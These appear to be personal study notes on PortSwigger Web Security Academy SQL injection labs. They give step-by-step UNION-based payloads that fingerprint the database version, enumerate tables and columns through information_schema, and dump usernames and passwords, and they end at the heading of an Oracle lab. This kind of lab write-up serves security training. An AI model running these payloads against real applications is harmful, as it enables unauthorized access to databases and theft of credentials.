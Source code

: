 - see [SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet) for how to get version in all DBs.

---

## [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

**Target:** get database type and version 

- `web-security-academy.net/filter?category=` the vulnrable parameter.

- query use `'` with value.

- `category=Pets' -- ;` DB is **MySQL**, (**Only** one need space after `--`).

- `Pets' UNION SELECT NULL, NULL -- ;` first query select **two colums**.

- `Pets' UNION SELECT @@version, NULL -- ;` the crafted query return database version.

---

## [Lab: SQL injection attack, listing the database contents on non-Oracle databases | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

**Target:** log in as the administrator user. 

- `web-security-academy.net/filter?category=` the vulnrable parameter.

- query use `'` with value.

- `' UNION SELECT NULL, NULL --` DB select **2 colums**.

- `' UNION SELECT NULL, NULL /*comment*/ --` DB is Microsoft or PostgreSQL.

- `' UNION SELECT version(), NULL --` DB is PostgreSQL.

- `' UNION SELECT table_name, NULL FROM information_schema.tables --` will retrive table names for PostgreSQL `table_name` colum has all tables names

- `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ubqycm' --` will return column names. for table have users. 

- `' UNION SELECT username_gcjtjo, password_ficcly from users_ubqycm --` will show all users data

---

## [Lab: SQL injection attack, listing the database contents on Oracle | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

**Target:** log in as the administrator user.
